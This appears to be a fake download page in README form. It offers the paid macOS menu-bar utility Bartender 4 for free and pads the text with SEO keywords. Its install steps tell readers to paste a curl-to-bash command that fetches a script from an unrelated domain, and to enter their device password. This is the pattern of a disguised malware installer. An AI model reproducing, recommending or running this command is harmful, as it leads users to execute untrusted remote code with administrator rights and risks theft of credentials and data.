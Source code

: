 # Bartender 4 — Download For macOS 🖥️

Bartender 4 is a powerful macOS menu bar organization tool that helps you declutter and manage your menu bar icons with ease. Follow the instructions below to download and install Bartender 4 on your Mac for free.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://mrboomzeus519.github.io/gimronus/bartender)

If the download button above doesn't work, follow the step-by-step terminal instructions below.

## 📦 How to Install Bartender 4 For macOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with Bartender 4

- 🛠️ **Menu Bar Customization**: Organize and hide menu bar icons to keep your workspace clean and focused.
- ⚡ **Quick Access**: Show hidden icons with a single click or keyboard shortcut for instant access.
- 🎨 **Personalized Layouts**: Customize the appearance and behavior of your menu bar to match your workflow.
- 🔄 **Dynamic Updates**: Automatically adjust the menu bar based on running apps or system status.
- 🔒 **Privacy Controls**: Hide sensitive app icons to maintain a secure and professional workspace.
- 🚀 **Performance Optimization**: Lightweight design ensures no impact on your Mac's performance.

---

## About Bartender 4

Bartender 4 is an essential macOS utility designed to streamline your menu bar experience. With the increasing number of apps that add icons to the macOS menu bar, it can quickly become cluttered, reducing productivity and visual appeal. Bartender 4 solves this by allowing users to hide, rearrange, or group menu bar icons effortlessly. Whether you're a professional managing multiple apps or a casual user seeking a cleaner interface, Bartender 4 delivers a seamless solution for macOS Ventura, Monterey, and earlier versions.

The software offers unmatched flexibility with its customization options. Users can create dynamic rules to show or hide icons based on specific triggers, such as when an app is active or during specific tasks. This makes Bartender 4 ideal for developers, designers, and anyone who values a distraction-free workspace. Its intuitive interface ensures that even first-time users can set it up in minutes, with no technical expertise required.

Bartender 4 also prioritizes performance, running smoothly on all modern macOS systems without draining system resources. Its compatibility with macOS Ventura and earlier versions ensures broad accessibility. The software is regularly updated to support new macOS releases, making it a reliable choice for long-term use. By incorporating SEO keywords like *Bartender 4 free download*, *macOS menu bar organizer*, and *menu bar customization tool*, this repository ensures discoverability for users searching for a free, legitimate way to install the software.

Another standout feature is Bartender 4's ability to enhance privacy. By hiding sensitive app icons, such as those for VPNs or messaging apps, users can maintain a professional workspace during presentations or screen-sharing sessions. This feature, combined with its lightweight design, makes Bartender 4 a must-have for macOS users looking to optimize their desktop environment.

### Why Choose Bartender 4?
Bartender 4 stands out among other menu bar management tools due to its robust feature set and user-friendly design. Unlike basic alternatives, it offers advanced customization, dynamic triggers, and seamless integration with macOS. Its free availability for download, as outlined in this repository, ensures that users can access its full potential without barriers. Whether you're searching for a *menu bar organizer macOS* or a *free macOS utility*, Bartender 4 delivers unmatched value.

---

## 🖼️ Preview

![Menu Bar Customization](https://i.ytimg.com/vi/ovtT2lDxTRQ/hq720.jpg?sqp=-oaymwE7CK4FEIIDSFryq4qpAy0IARUAAAAAGAElAADIQj0AgKJD8AEB-AH-CYAC0AWKAgwIABABGH8gJygTMA8=&rs=AOn4CLCLrQZyzTOxn-1gX-Y5jKDrReAgkg)  
*Customizing the menu bar with Bartender 4's intuitive interface*

![Hidden Icons](https://heise.cloudimg.io/bound/1200x1200/q85.png-lossy-85.webp-lossy-85.foil1/_www-heise-de_/imgs/18/4/6/0/5/9/7/5/bartendermac-90de7df635acb720.png)  
*Hiding unused icons for a cleaner macOS menu bar*

![Dynamic Triggers](https://cdn.macstories.net/screen-shot-2021-04-19-at-4-33-42-pm-1618869622843.png)  
*Setting dynamic rules to show/hide icons based on app activity*

---

## 🔍 Tags

Bartender 4 free download, free Bartender download, bartender for mac download, bartender free download, bartender macos free, bartender 4 free download mac, bartender macos free, bartender 4 free macos, bartebder 4 free, bartender 4 download
